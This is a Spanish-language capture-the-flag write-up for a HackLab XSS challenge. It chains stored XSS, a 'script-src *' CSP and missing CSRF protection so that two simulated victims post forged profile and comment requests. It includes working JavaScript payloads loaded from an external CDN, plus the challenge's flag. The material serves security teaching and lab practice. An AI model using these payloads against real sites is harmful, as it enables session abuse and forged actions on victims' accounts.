



# Desafío 10 - Blog HackLab V2 (HackLab 2026)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2026  
**Categoría:** XSS  

## Análisis

Cuarta versión del "Blog de Pepe". El blog permite publicar comentarios y, para los perfiles marcados como **expertos**, muestra públicamente su biografía (`bio`) en la sección `/biographies`. El objetivo cambia respecto al Desafío 9: ya no hay que modificar un perfil, sino **lograr que la usuaria `jeni` deje un comentario**.

La restricción central es de comportamiento: **`jeni` nunca entra a `/comments`** (cree que es insegura), **solo visita `/biographies`**. Un `<script>` alojado en un comentario, entonces, jamás se ejecuta en su navegador: solo corre para quien carga la página de comentarios (Pepe sí; Jeni no). El payload tiene que terminar **dentro de una bio que se renderice en `/biographies`**, la única página que Jeni abre.

Se dispone de un mecanismo de ingeniería social que fuerza el ingreso **primero de Pepe y luego de Jeni** al blog, una vez por minuto. Esa funcionalidad no se ataca; solo sirve para provocar la visita de las víctimas.

Las primitivas de la vulnerabilidad son las mismas del Desafío 9:

- **Stored XSS sin sanitizar en la salida.** El campo de comentarios re-inyecta el HTML tal cual (`<b>test</b>` se renderiza en negrita). Lo mismo ocurre con la **bio**: al setear la bio de un experto a `<b>xsstest</b>`, `/biographies` la devuelve cruda:

  ```html
  <p class="mb-0 mt-2"><b>xsstest</b></p>
  ```

  Cargando `/biographies`, la bio de `@pepe` aparece en negrita, lo que confirma que la bio no se sanitiza y que un `<script src>` inyectado ahí se ejecutará:

  

- **CSP mal configurada** en el `<head>`:

  ```html
  <meta http-equiv="Content-Security-Policy" content="script-src *">
  ```

  El comodín `*` bloquea todo script **inline** (y los event handlers `onerror=`, `onload=`, etc.), pero **autoriza `<script src>` de cualquier origen remoto**. Un script externo alojado en un CDN con `Content-Type: application/javascript` (jsDelivr) se carga y ejecuta sin problema.

- **Falta de token anti-CSRF.** La autenticación depende solo de la cookie `session` de Flask (`{"user_id": N}`), que el navegador adjunta automáticamente. Tanto `POST /profile` (actualiza la bio) como `POST /comment` (publica un comentario) carecen de protección CSRF, por lo que se pueden forjar desde el propio dominio con la identidad de la víctima.

La cadena combina las tres: **Stored XSS + CSP `script-src *` + ausencia de CSRF**, en **dos etapas** encadenadas por dónde entra cada víctima.

## Explotación

La idea es pivotar de `/comments` (donde entra Pepe) a `/biographies` (donde entra Jeni), usando la bio de Pepe como puente:

```
[hacklab] comenta <script src=stage1.js>
      │
      ▼  (Engañar → Pepe carga /comments)
[Pepe] ejecuta stage1.js → POST /profile → su bio = <script src=stage2.js>
      │  (Pepe es experto → su bio se muestra en /biographies)
      ▼  (Engañar → Jeni carga SOLO /biographies)
[Jeni] ejecuta stage2.js → POST /comment con SU sesión → comentario publicado
```

### 1. `stage1.js` — envenenar la bio de Pepe (se ejecuta en `/comments`)

Se aloja en jsDelivr (para pasar la CSP y evitar el bloqueo ORB) y se referencia desde un comentario:

```html
<script src="https://cdn.jsdelivr.net/gh/gonzaorban/CTF-Writeups@main/HackLab/xss/desafio-10-blog-hacklab-v2/assets/stage1.js"></script>
```

Cuando Pepe carga `/comments`, el script forja un `POST /profile` (`multipart/form-data`, campos `bio` y `profile_pic`, sin CSRF) que guarda en **su** bio un segundo `<script src>` apuntando a `stage2.js`. La imagen es un JPEG de 1×1 embebido en Base64 y construido en memoria con `Blob`, igual que en el Desafío 9:

```javascript
const bioPayload = '<script src="https://cdn.jsdelivr.net/gh/gonzaorban/CTF-Writeups@main/HackLab/xss/desafio-10-blog-hacklab-v2/assets/stage2.js"><\/script>';

const fd = new FormData();
fd.append("bio", bioPayload);
fd.append("profile_pic", imgBlob, "pwned.jpg");

await fetch("/profile", {
    method: "POST",
    credentials: "include", // same-origin: envía la cookie de sesión de Pepe
    body: fd
});
```

Como Pepe es experto, su bio ya envenenada pasa a mostrarse en `/biographies`:


El payload almacenado se puede confirmar abriendo la sección Perfil: el campo Bio contiene el `<script src=".../stage2.js"></script>`.



### 2. `stage2.js` — comentar como Jeni (se ejecuta en `/biographies`)

Cuando Jeni carga `/biographies`, se renderiza la bio de Pepe, que dispara `stage2.js` en el navegador de Jeni. El endpoint de comentarios es trivial de forjar: `POST /comment`, `application/x-www-form-urlencoded`, un solo campo `content`, sin CSRF. Al ser una petición same-origin, la cookie de sesión de Jeni se adjunta sola:

```javascript
await fetch("/comment", {
    method: "POST",
    credentials: "include",
    headers: { "Content-Type": "application/x-www-form-urlencoded" },
    body: "content=" + encodeURIComponent("jeni estuvo aca - pwned by hacklab")
});
```

Así Jeni "deja un comentario" sin abrir jamás la sección de comentarios.

### 3. Orquestación

La ingeniería social ingresa **primero a Pepe y luego a Jeni**, y con **un solo disparo de "Engañar"** alcanza: Pepe entra a `/comments` y ejecuta `stage1.js`, que deja `stage2.js` en su bio; para cuando Jeni entra a `/biographies`, el `POST /profile` de Pepe ya se guardó, así que Jeni encuentra la bio envenenada y comenta.

Conviene **partir de un estado limpio** (reiniciar el desafío / limpiar bios y comentarios previos), porque payloads de corridas anteriores pueden seguir ejecutándose e interferir con la verificación.

### 4. Flag

Al publicarse el comentario de Jeni, el blog muestra el mensaje de éxito con el flag. Se ve el comentario firmado por `jeni` y el encabezado "Ganaste":



## Flag

```
a10f74afc9461aa148c893f0efa37095
```
